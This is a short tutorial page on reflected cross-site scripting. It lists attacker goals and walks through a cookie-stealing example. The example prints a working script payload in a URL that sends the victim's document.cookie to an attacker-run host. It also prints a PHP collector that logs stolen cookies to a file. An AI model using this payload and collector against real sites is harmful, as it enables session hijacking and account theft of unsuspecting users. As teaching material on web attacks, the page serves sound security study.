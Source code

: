 #### What Can Attacker Do With The XSS ?

**Cross site scripting attacks can be used to achieve many goals**

- **Cookie stealing**
- **Getting complete over a browser**
- **Initiating an exploitation phase against browser plugins first and then the machine**
- **Perfom keylogging**

#### Stealing Cokkie With XSS Sample

**Lets assume that the ultimate goal of an hacker is to run JavaScript to steal a sesion cookie of a user John Doe who is authenticated into web site site2.com**\

**The first thing the hacker tries to do is to find an XSSvulnerability affecting website**\
**Once an XS is located , attacker will have to build up a payload, create link and sent it to victim inviting the same to click on it. (This is called refleccted xss)**

`http://site2.com/vulnerablexss.php?name=<script>var i=new Image(); i.src="http://site1.com/steal.php?q="%2bdocument.cookie;</script>`

Here is the attacker malicous web site to steal cookie of the user. (site1.com/steal.php web site is made by attacker)

```
<?php

$fn="log.txt";
$fh=fopen($fn,'a');
$cookie=$_GET['q'];
fwrite($fh,$cookie);
fclose($fh);

?>
```

Attacker open txt file and write to cookie value of vulnerable web site to the this file.

---

Firstly attacker find xss on the victim site

![Image](/img/stealcookiexss.png)

Then Attacker send malicious link to the user and user click on it

![Image](/img/clicked.png)

Attacker write cookie value to the log.txt file

![Image](/img/readcookie.png)
